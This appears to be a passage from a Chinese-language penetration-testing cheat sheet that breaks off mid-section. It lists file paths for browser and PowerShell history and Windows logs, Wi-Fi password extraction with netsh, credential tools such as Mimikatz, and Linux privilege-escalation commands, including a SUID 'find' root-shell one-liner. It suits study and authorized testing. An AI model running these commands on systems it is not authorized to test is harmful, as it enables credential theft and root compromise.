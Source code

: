     PowerShell v5版本以上的操作历史记录会直接保存在指定文件中。
    
    `Get-Content (Get-PSReadLineOption).HistorySavePath` 
    
- 浏览器访问记录
    - Chrome浏览器
        
        `C:\Users $username\AppData\Local\Google\Chrome\User Data\Default\History`
        
    - Firefox浏览器
        
        `C:\Users $username\AppData\name.default\places.sqlite`
        
    - IE浏览器
        
        `C:\Users\Administrator\AppData\Local\Microsoft\Windows\History`
        
- 系统日志
    - 应用日志：`C:\Windows\System32\winevt\Logs\Application.evtx`
    - 系统日志：`C:\Windows\System32\winevt\Logs\System.evtx`
    - 安全日志：`C:\Windows\System32\winevt\Logs\Security.evtx`

### 密码提取

- 浏览器密码提取
    
    工具：WebBrowserPassView（System权限）
    
- WLAN密码提取（Stystem权限）
    - 查看之前连接过得所有Wi-Fi名称：`netsh wlan show profiles`
    - 提取保存的密码：`netsh wlan show profiles wifi名称 key=clear`
- 系统密码提取
    - Windows工具：Mimikatz，提取明文密码、HASH值、PIN码、Kerberos票据。
    - hash破解工具：ophcrack
    - Kali Linux密码破解工具：John the Ripper

## 权限提升

### Linux系统提取

- **内核漏洞提权**
    - `uname -a`查看Linux系统内核版本
    - SearchSploit工具搜索相应内核的可用提权脚本并上传到提权主机
    - `gcc -o exploit xxxx.c` 编译提权脚本
    - 运行编译的可执行文件exploit
- **SUID提权**
    - 使用find命令查找正在系统运行的所有具有SUID的可执行文件
        
        `find / -perm -u=s -type f 2>dev/null` 
        
    - 在具有SUID属性的可执行文件中选择“find”命令进行提权
        
        `find . -exec /bin/sh -p \; -quit` 
        
        这个命令中，**`/bin/sh -p`**开启一个shell，并保持原始权限（由于SUID，可能是root权限）。
        
- **计划任务提权**
    - 查看计划任务文件的内容 `cat /etc/crontab`
        